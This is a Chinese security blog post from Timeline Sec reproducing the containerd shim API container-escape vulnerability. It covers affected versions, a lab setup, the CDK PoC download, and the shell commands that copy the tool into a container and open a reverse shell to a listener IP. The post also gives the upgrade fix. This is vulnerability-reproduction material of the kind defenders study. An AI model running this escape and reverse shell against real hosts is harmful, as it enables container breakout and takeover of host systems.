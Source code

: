> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/tyxJhqcZ3QTSjAqTZZSgrA)

  

**上方蓝色字体关注我们，一起学安全！**

**作者：水木逸轩** **@Timeline Sec**

**本文字数：539**

**阅读时长：2～3min**

**声明：请勿用作违法用途，否则后果自负**

**0x01 简介**  

  

Containerd 是一个工业级标准的容器运行时，它强调简单性、健壮性和可移植性。Containerd 可以在宿主机中管理完整的容器生命周期：容器镜像的传输和存储、容器的执行和管理、存储和网络等。

**0x02 漏洞概述**  

  

在版本 1.3.9 和 1.4.3 之前的容器中，容器填充的 API 不正确地暴露给主机网络容器。填充程序的 API 套接字的访问控制验证了连接过程的有效 UID 为 0，但没有以其他方式限制对抽象 Unix 域套接字的访问。这将允许在与填充程序相同的网络名称空间中运行的恶意容器（有效 UID 为 0，但特权降低）导致新进程以提升的特权运行。

**0x03 影响版本**  

  

containerd < 1.4.3

containerd < 1.3.9

**0x04 环境搭建**  

  

Docker 版本查看：  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjRFVUuGZEIFbicEYOd20jiasNWCgWFauh8IQwJBYCyCTQJSYWjdEiaFvYJqEibxnZVrYrFx47PQpjbog/640?wx_fmt=png)

符合要求

查看 docker 宿主机内核版本：  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjRFVUuGZEIFbicEYOd20jias2T9HMVIoKkJxUw1E5MibCpR3JaqM9FfY2zH53c1ibOsAQibyVCOx3DjSg/640?wx_fmt=png)

下载 poc

```
https://github.com/Xyntax/CDK/releases/tag/0.1.6
```

将与内核类型对应的 poc 复制到虚拟机的容器中  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjRFVUuGZEIFbicEYOd20jiasFd4MAy82NPgzv8jSBGb31QLZeNNwETqOSsdpjVc68NEibbpibxIu71QQ/640?wx_fmt=png)  

```
docker cp cdk_linux_386 容器ID:/tmp
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjRFVUuGZEIFbicEYOd20jiasfLU26lc5NiaicibtaY9GVRnPXNDWuibFFSRkLAW1TpU1Nz4scBLLg7f0Yw/640?wx_fmt=png)  

docker ps 查看当前运行的镜像：  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjRFVUuGZEIFbicEYOd20jiasdYgeSXBUOibhB1nLL4HT4pMRticcRuc3taqCEe883AjeyhWhTib0gkb5A/640?wx_fmt=png)

进入镜像，poc 已复制到镜像中：  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjRFVUuGZEIFbicEYOd20jias92VMja3LsbNI1xtpVrvBv634stI8GefxhCj20Mz0nWX8WVEGWDaaag/640?wx_fmt=png)

**0x05 漏洞复现**  

  

执行 poc，到监听侧进行查看

```
./cdk_linux_386 run shim-pwn 192.168.254.132 6666
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjRFVUuGZEIFbicEYOd20jiasez0800BCKpNujafWRPc4ia3FhB9U1s6ryf5I2beFQ1EZnDeMbH8DBiaw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjRFVUuGZEIFbicEYOd20jiasKFrZzLclqrzMY6VaCNV3THYpK3czsTFpcicW0eGMNfqHRNZCLgMzYZQ/640?wx_fmt=png)

反弹成功

**0x06 修复方式**  

  

升级 containerd 至最新版本。

```
参考链接：
```

https://blog.csdn.net/weixin_45728976/article/details/110452543

https://blog.csdn.net/weixin_45728976/article/details/110694414

https://mp.weixin.qq.com/s/4VPle19F2gKmhrMrgYKroQ

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaASAShFz46a4AgLIIYWJQKpGAnMJxQ4dugNhW5W8ia0SwhReTlse0vygkJ209LibhNVd93fGib77pNQ/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/VfLUYJEMVshAoU3O2dkDTzN0sqCMBceq8o0lxjLtkWHanicxqtoZPFuchn87MgA603GrkicrIhB2IKxjmQicb6KTQ/640?wx_fmt=jpeg)

**阅读原文看更多复现文章  
**

Timeline Sec 团队  

安全路上，与你并肩前行